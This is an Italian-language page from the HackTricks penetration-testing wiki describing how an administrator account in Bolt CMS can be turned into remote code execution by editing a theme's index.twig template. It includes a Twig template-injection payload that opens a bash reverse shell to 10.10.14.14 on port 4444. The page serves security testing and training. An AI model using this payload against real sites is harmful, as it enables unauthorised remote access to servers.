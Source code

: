 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Dopo aver effettuato il login come admin (vai su /bot per accedere al prompt di login), puoi ottenere RCE in Bolt CMS:

- Seleziona `Configuration` -> `View Configuration` -> `Main Configuration` oppure vai al percorso URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Controlla il valore del tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Seleziona `File management` -> `View & edit templates`
- Seleziona il tema base trovato nel passo precedente (`base-2021` in questo caso) e seleziona `index.twig`
- Nel mio caso questo si trova nel percorso URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Imposta il tuo payload in questo file tramite [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), come: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- E salva le modifiche

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Pulisci la cache in `Maintenance` -> `Clear the cache`
- Accedi di nuovo alla pagina come utente normale, e il payload dovrebbe essere eseguito

{{#include ../../banners/hacktricks-training.md}}

